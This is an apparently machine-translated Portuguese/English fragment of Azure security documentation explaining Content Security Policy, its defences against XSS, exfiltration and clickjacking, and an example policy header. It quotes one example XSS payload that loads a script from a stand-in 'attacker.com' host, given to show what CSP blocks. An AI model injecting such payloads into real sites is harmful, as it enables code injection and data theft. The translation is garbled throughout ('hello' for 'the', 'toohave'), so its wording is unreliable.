 | <span data-ttu-id="acbf3-153">**Etapas**</span><span class="sxs-lookup"><span data-stu-id="acbf3-153">**Steps**</span></span> | <p><span data-ttu-id="acbf3-154">Política de segurança de conteúdo (CSP) é um defesa no mecanismo de segurança, um W3C padrão, que permite o controle de toohave de proprietários de aplicativo de web Olá conteúdo incorporado em seu site.</span><span class="sxs-lookup"><span data-stu-id="acbf3-154">Content Security Policy (CSP) is a defense-in-depth security mechanism, a W3C standard, that enables web application owners toohave control on hello content embedded in their site.</span></span> <span data-ttu-id="acbf3-155">CSP é adicionado como um cabeçalho de resposta HTTP no servidor de web hello e é imposto no lado do cliente Olá por navegadores.</span><span class="sxs-lookup"><span data-stu-id="acbf3-155">CSP is added as an HTTP response header on hello web server and is enforced on hello client side by browsers.</span></span> <span data-ttu-id="acbf3-156">Ela é uma política baseada na lista de permissões; um site pode informar um conjunto de domínios confiáveis, dos quais conteúdos ativos, como JavaScript, podem ser carregados.</span><span class="sxs-lookup"><span data-stu-id="acbf3-156">It is a whitelist-based policy - a website can declare a set of trusted domains from which active content such as JavaScript can be loaded.</span></span></p><p><span data-ttu-id="acbf3-157">CSP fornece Olá benefícios de segurança a seguir:</span><span class="sxs-lookup"><span data-stu-id="acbf3-157">CSP provides hello following security benefits:</span></span></p><ul><li><span data-ttu-id="acbf3-158">**Proteção contra XSS:** se uma página é vulnerável tooXSS, um invasor pode explorar formas 2:</span><span class="sxs-lookup"><span data-stu-id="acbf3-158">**Protection against XSS:** If a page is vulnerable tooXSS, an attacker can exploit it in 2 ways:</span></span><ul><li><span data-ttu-id="acbf3-159">Injetar `<script>malicious code</script>`:</span><span class="sxs-lookup"><span data-stu-id="acbf3-159">Inject `<script>malicious code</script>`.</span></span> <span data-ttu-id="acbf3-160">Esta exploração não funcione devido da tooCSP base de dados de restrição-1</span><span class="sxs-lookup"><span data-stu-id="acbf3-160">This exploit will not work due tooCSP’s Base Restriction-1</span></span></li><li><span data-ttu-id="acbf3-161">Injetar `<script src=”http://attacker.com/maliciousCode.js”/>`:</span><span class="sxs-lookup"><span data-stu-id="acbf3-161">Inject `<script src=”http://attacker.com/maliciousCode.js”/>`.</span></span> <span data-ttu-id="acbf3-162">Esta exploração não funcionará como domínio de invasor controlado Olá não estará na lista de permissões do CSP de domínios</span><span class="sxs-lookup"><span data-stu-id="acbf3-162">This exploit will not work since hello attacker controlled domain will not be in CSP’s whitelist of domains</span></span></li></ul></li><li><span data-ttu-id="acbf3-163">**Controle sobre a pesquisa por dados:** se algum conteúdo mal-intencionado em uma página da Web tenta site externo do tooconnect tooan e roubar dados, conexão Olá será anulada pelo CSP.</span><span class="sxs-lookup"><span data-stu-id="acbf3-163">**Control over data exfiltration:** If any malicious content on a webpage attempts tooconnect tooan external website and steal data, hello connection will be aborted by CSP.</span></span> <span data-ttu-id="acbf3-164">Isso ocorre porque o domínio de destino Olá não estará na lista de permissões do CSP</span><span class="sxs-lookup"><span data-stu-id="acbf3-164">This is because hello target domain will not be in CSP’s whitelist</span></span></li><li><span data-ttu-id="acbf3-165">**Defesa contra jacking clique:** jacking clique é uma técnica de ataque com o qual um adversário pode quadro um site original e forçar os usuários tooclick em elementos de interface do usuário.</span><span class="sxs-lookup"><span data-stu-id="acbf3-165">**Defense against click-jacking:** click-jacking is an attack technique using which an adversary can frame a genuine website and force users tooclick on UI elements.</span></span> <span data-ttu-id="acbf3-166">Para se proteger contra o furto de clique atualmente, basta configurar um cabeçalho de resposta X-Frame-Options.</span><span class="sxs-lookup"><span data-stu-id="acbf3-166">Currently defense against click-jacking is achieved by configuring a response header- X-Frame-Options.</span></span> <span data-ttu-id="acbf3-167">Nem todos os navegadores respeitam esse cabeçalho e vai CSP encaminhamento será um toodefend de maneira padrão contra jacking clique em</span><span class="sxs-lookup"><span data-stu-id="acbf3-167">Not all browsers respect this header and going forward CSP will be a standard way toodefend against click-jacking</span></span></li><li><span data-ttu-id="acbf3-168">**Relatório de ataque em tempo real:** se houver um ataque de injeção em um site habilitado CSP, navegadores irá disparar automaticamente um ponto de extremidade notificação tooan configurado no servidor Web de saudação.</span><span class="sxs-lookup"><span data-stu-id="acbf3-168">**Real-time attack reporting:** If there is an injection attack on a CSP-enabled website, browsers will automatically trigger a notification tooan endpoint configured on hello webserver.</span></span> <span data-ttu-id="acbf3-169">Dessa forma, a CSP atua como um sistema de aviso em tempo real.</span><span class="sxs-lookup"><span data-stu-id="acbf3-169">This way, CSP serves as a real-time warning system.</span></span></li></ul> |

### <a name="example"></a><span data-ttu-id="acbf3-170">Exemplo</span><span class="sxs-lookup"><span data-stu-id="acbf3-170">Example</span></span>
<span data-ttu-id="acbf3-171">Política de exemplo:</span><span class="sxs-lookup"><span data-stu-id="acbf3-171">Example policy:</span></span> 
```C#
Content-Security-Policy: default-src 'self'; script-src 'self' www.google-analytics.com 
```